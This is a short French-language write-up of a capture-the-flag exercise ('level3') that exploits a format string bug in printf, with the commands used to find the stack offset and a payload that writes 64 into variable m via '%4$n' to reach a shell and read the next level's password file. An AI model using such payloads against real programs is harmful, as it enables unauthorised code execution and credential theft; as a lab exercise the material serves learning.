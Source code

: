 On a encore un executable, on le disassemble
il a une fonction V
il y a fgets qui est protegé contre les buffer overflow

et qu'il a une comparaison de "64"
(qd on decompile, on voit que dans la fonction v il y a un system /bin/sh donc on veut acceder a ca, seulement le if compare une variable "m" a 64)

0x080484df <+59>:	cmp    $0x40,%eax

on cherche toute les variables du programme grace a "info variable" (car m n'est defini nul part dans les decompilations)
<!-- on cherche a savoir l'adresse de la variable m qui contient 64 avec print &m on obtient : 0x804988c (pas besoin)-->

mais il y a un printf qu'on va manipuler pour changer la variable a l'adresse 0x804988c, on peut donc faire un format string attack
le flag %x de printf permet de print l'adresse en format hexadécimal

on va essayer de trouver ou se trouve l'adresse avec 

(python -c 'print "CCCC %x %x %x %x %x %x"'; cat) | ./level3

python -c 'print "CCCC %x %x %x %x %x %x"' > /tmp/test
cat /tmp/test - | ./level3

la ou ca se repete c'est la 4 eme position (43434343) donc on va mettre l'adresse (little-endian) de la variable m qui est : \x8c\x98\x04\x08

on veut changer le contenu de M qui accepte que 64 bytes donc l'adresse M fait 4bytes il faut qu'on rajoute 60

python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit

on donne l'argument "%4$n" qui veut dire utilise l'argument 4 et utilise $n dessus (l'argument $n ecrit dans l'adresse donnee)

whoami

cat /home/user/level4/.pass